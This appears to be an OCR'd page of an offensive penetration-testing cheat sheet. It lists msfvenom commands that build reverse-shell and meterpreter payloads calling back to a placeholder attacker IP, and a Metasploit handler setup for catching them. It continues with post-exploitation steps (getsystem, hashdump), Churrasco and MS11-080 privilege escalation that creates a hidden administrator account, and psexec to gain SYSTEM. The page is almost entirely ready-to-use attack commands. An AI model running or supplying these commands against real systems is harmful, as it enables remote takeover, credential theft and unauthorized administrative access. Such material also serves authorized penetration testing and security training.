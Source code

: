 msfvenom -p linux/x86/shell/reverse\_tcp LHOST=<attacker\_ip> LPORT=443 -f perl -b \x00\x0A\x0D\xFF

Raw paylaod:

msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=<attacker\_ip> LPORT=4444 -f raw -o test.bin

Js payload:

msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=<attacker\_ip> LPORT=443 -f js\_le

Handling reverse shell using meterpreter:

msf > use exploit/multi/handler

msf > set lport 1234

msf > set lhost <attacker\_ip>

msf > set payload windows/shell/reverse\_tcp

msf > run

Other payloads:

set PAYLOAD windows/meterpreter/reverse\_tcp

set PAYLOAD generic/shell\_reverse\_tcp

set PAYLOAD linux/x86/meterpreter/reverse\_tcp

Privilege escalation

getsystem

hashdump

Useful exploits

Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

https://www.exploit-db.com/exploits/6705/

https://github.com/Re4son/Churrasco

$ c:\Inetpub>churrasco

churrasco

/churrasco/-->Usage: Churrasco.exe [-d] "command to run"

c:\Inetpub>churrasco -d "net user /add <username> <password>"

c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"

Windows MS11-080

http://www.exploit-db.com/exploits/18176/

$ python pyinstaller.py --onefile ms11-080.py

$ mx11-080.exe -O XP

From admin to system

psexec.exe -i -s %SystemRoot%\system32\cmd.exe
